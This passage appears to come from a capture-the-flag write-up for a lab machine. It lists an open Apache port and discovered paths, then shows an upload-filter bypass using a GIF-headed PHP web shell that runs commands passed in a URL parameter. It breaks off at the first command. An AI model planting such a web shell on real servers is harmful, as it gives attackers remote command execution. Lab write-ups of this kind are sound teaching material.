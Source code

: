 ![writeup.enumeration.steps.8.2](./screenshot11.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  |  http  |  Apache httpd 2.4.18 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.178:80/contact.php
http://192.168.92.178/index.php
http://192.168.92.178/js/ZmxhZzJ7YVcxbVl.js
http://192.168.92.178/js/XUnRhVzVwYzNS.js
http://192.168.92.178/js/eVlYUnZjZz09fQ==.min.js
http://192.168.92.178/imfadministrator/index.php
http://192.168.92.178/imfadministrator/cms.php?pagename=home
http://192.168.92.178/imfadministrator/images/whiteboard.jpg
http://192.168.92.178/imfadministrator/uploadr942.php
```

\newpage
## Phase #2: Exploitation
1\. The `http://192.168.92.178/imfadministrator/uploadr942.php` page has a file upload functionality. We tried different methods to evade the `CrappyWAF` filters and ended up using a minimal command execution page with GIF header and extension as the final payload. Once the file is uploaded, it's destination file name is leaked within HTML comments on the result page. We can use this uploaded file to get command execution:  
``` {.python .numberLines}
cat cmd.gif
  GIF89a
  <?php $out=$_GET["cmd"]; echo `$out`; ?>
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=uname

```
